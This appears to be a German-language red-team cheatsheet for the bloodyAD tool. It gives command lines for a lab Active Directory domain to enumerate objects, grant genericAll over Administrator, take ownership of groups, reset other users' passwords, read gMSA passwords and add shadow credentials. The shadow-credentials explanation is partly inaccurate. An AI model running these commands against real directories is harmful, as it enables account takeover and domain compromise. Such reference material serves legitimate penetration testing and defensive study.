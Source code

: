 
# 🩸 BloodyAD Cheatsheet

bloodyAD ist ein leistungsstarkes Kommandozeilen-Tool zur Interaktion mit Active Directory-Umgebungen. Es wurde speziell für offensive Sicherheitsanalysen entwickelt und ermöglicht das gezielte Abfragen, Modifizieren und Ausnutzen von AD-Objekten. Das Tool unterstützt Authentifizierung über Benutzername und Passwort sowie komplexe Angriffe auf Benutzerrechte und -eigenschaften.

Mit bloodyAD lassen sich u. a. Benutzer- und Gruppeninformationen auslesen, Berechtigungen setzen, Passwörter ändern, Shadow Credentials hinzufügen oder privilegierte Objekte manipulieren. Es basiert auf LDAP-Kommunikation und nutzt interne AD-Mechanismen wie ACLs, UAC-Flags und SID-History.

Im Unterschied zu reinen Abfrage-Tools bietet bloodyAD umfassende Schreib- und Kontrollmöglichkeiten – ideal für Red Teaming und Post-Exploitation-Szenarien. Dabei bleibt es CLI-basiert, leichtgewichtig und präzise steuerbar.

## Inhaltsverzeichnis

- [Retrieve Domain Information](#-retrieve-domain-information)
- [Retrieve User Information](#-retrieve-user-information)
- [Get groupMembers](#-get-groupmembers)
- [Add User To Group](#-add-user-to-group)
- [Add New User](#-add-new-user)
- [Get Computers](#-get-computers)
- [Change Password](#-change-password)
- [Give User GenericAll Rights](#-give-user-genericall-rights)
- [Write Owner](#-write-owner)
- [Enable a Disabled Account](#-enable-a-disabled-account)
- [Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag](#-add-the-trusted_to_auth_for_delegation-flag)
- [ReadGMSAPassword](#-readgmsapassword)
- [Modify UPN](#-modify-upn)
- [Shadow Credentials](#-shadow-credentials)

<br>

---

<br>

### 🧩 Retrieve Domain Information

Zeigt grundlegende Informationen zur Active Directory-Domäne wie Domain-Controller, Domänenfunktionsebene und andere Metadaten an.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get domain
```

<br>

### 🧩 Retrieve User Information

Fragt Active Directory-Objekt (z. B. einen Benutzer) ab und zeigt alle LDAP-Attribute des Zielobjekts.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object administrator
```

<br>

### 🧩 Get groupMembers

Listet alle Mitglieder der angegebenen AD-Gruppe (z. B. DEVELOPERS) auf und zeigt deren Benutzernamen und Details.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get groupMembers DEVELOPERS
```

<br>

### 🧩 Add User To Group

Zeigt alle Active Directory-Objekte an, auf die der Nutzer a.james Schreibrechte hat. Mit --detail werden zusätzlich ausführliche Informationen zu den Berechtigungen ausgegeben.
Fügt den Benutzer a.james zur Gruppe DEVELOPERS im Active Directory hinzu. Dadurch erhält der Nutzer die Rechte und Mitgliedschaften der Zielgruppe.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get writable --detail
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add groupMember DEVELOPERS a.james
```

<br>

### 🧩 Add New User

Legt einen neuen Benutzer im Active Directory an, um ihn in der Domäne zu registrieren.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add user <Benutzername>
```

<br>

### 🧩 Get Computers

Listet alle Computerobjekte innerhalb der Active Directory-Domäne auf.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get computers
```
<br>

### 🧩 Change Password

Setzt das Passwort des angegebenen Active Directory-Benutzers ($target_username) auf ein neues Passwort ($new_password). Damit kann der Nutzer das Passwort eines anderen AD-Accounts ändern.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' set password $target_username $new_password
```

<br>

### 🧩 Give User GenericAll Rights

Gewährt dem Benutzer a.james volle Zugriffsrechte („genericAll“) auf das AD-Objekt „Administrator“. Dadurch kann a.james alle Eigenschaften und Berechtigungen des Administrator-Kontos ändern.
"Füge der Access Control List (ACL) des Administrator-Objekts hinzu, dass a.james volle Rechte bekommt.“
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add genericAll "CN=Administrator,CN=Users,DC=b2syn,DC=htb" a.james
```

<br>

### 🧩 Write Owner

Setzt den Besitzer des Active Directory-Objekts „DEVELOPERS“ auf den Benutzer a.james. Dadurch erhält a.james volle Kontrolle über dieses Objekt.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' set owner "CN=DEVELOPERS,DC=b2syn,DC=htb" a.james
```

<br>

### 🧩 Enable a Disabled Account

Entfernt das ACCOUNTDISABLE-Flag im User-Account-Control (UAC) des Benutzers j.calvus, wodurch das Konto wieder aktiviert wird.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' remove uac "CN=j.calvus,OU=Users,DC=b2syn,DC=htb" -f ACCOUNTDISABLE
```

<br>

### 🧩 Add The TRUSTED_TO_AUTH_FOR_DELEGATION Flag

Fügt dem Benutzerkonto service-account das UAC-Flag TRUSTED_TO_AUTH_FOR_DELEGATION hinzu. Dadurch wird das Konto für die vertrauenswürdige Delegierung autorisiert.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' add uac "CN=service-account,OU=Services,DC=b2syn,DC=htb" -f TRUSTED_TO_AUTH_FOR_DELEGATION
```

<br>

### 🧩 ReadGMSAPassword

Fragt das Active Directory-Objekt gmsa-web (Managed Service Account) ab und zeigt das Attribut msDS-ManagedPassword mit dem aktuellen verwalteten Passwort an.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object "CN=gmsa-web,CN=Managed Service Accounts,DC=b2syn,DC=htb" --attr msDS-ManagedPassword
```
<br>

### 🧩 Modify UPN
Fragt beim Active Directory-Benutzer joerg das Attribut userPrincipalName ab und zeigt dessen Wert an.
Ändert im Active Directory beim Benutzer joerg das Attribut userPrincipalName auf „joerg2@b2syn.htb“. Damit wird der Anmeldename des Nutzers angepasst.
```zsh
bloodyAD --host $IP -d b2syn.htb -u a.james -p 'Maofron32!' get object "CN=joerg,OU=Users,DC=b2syn,DC=htb" --attr userPrincipalName
bloodyAD --host $IP -d b2syn.htb -u admin -p 'Passw0rd!' set object "CN=joerg,OU=Users,DC=b2syn,DC=htb" userPrincipalName -v "joerg2@b2syn.htb"
```

<br>

### 🧩 Shadow Credentials

Fügt dem AD-Benutzer joerg sogenannte Shadow Credentials hinzu, die alternative Anmeldedaten (z. B. für Azure AD Pass-Through Authentication) ermöglichen.
```zsh
bloodyAD --host $IP -d b2syn.htb -u admin -p 'Passw0rd!' add shadowCredentials "CN=joerg,OU=Users,DC=b2syn,DC=htb"
```


